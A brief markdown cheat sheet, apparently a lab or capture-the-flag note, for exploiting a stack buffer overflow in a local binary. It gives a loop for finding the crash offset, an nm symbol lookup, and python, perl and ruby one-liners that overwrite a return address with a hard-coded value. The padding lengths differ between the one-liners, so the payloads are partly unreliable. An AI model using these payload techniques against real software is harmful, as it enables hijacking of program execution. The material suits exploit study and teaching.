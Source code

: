 
## Getting Offset

```
for j in {20..45}; do echo -n "$j: "; ./a.out `ruby -e "print 'A'*$j"`; done
```

## Check Method Names

```

nm binary | grep " t "


```


## One-Liner Payload

```
./a.out `python -c 'print "A"*30 + "BBBB" + "\x5e\x84\x04\x08"'`
./a.out `perl -e 'print "A"x30 . "BBBB" . "\x5e\x84\x04\x08"'`
./a.out `ruby -e 'print "A"*50 + "BBBB" + "\x5e\x84\x04\x08"'`
```